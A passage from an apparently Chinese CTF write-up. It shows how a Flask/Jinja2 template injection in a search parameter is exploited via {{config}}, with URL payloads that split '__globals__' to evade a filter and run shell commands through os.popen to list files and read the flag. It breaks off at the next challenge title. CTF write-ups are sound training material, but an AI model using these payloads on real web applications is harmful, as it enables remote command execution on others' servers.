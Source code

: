 即可获取`flag`

#### 方法四 config

直接输入`config`会发现有返回值

```url
?search={{config}}
```

![Config 1](img/15-4.png)

然后可以直接通过`config`初始化一个全局变量然后在使用`os`模块、`popen()`方法执行命令`read()`读取值

```url
?search={{config.__init__['__glo'+'bals__']['os'].popen('ls').read()}}
```

```url
?search={{config.__init__['__glo'+'bals__']['os'].popen('cat flasklight/coomme_geeeett_youur_flek').read()}}
```

## [CISCN2019 华北赛区 Day1 Web2]ikun

`pickle`
`python`

进入题目首页

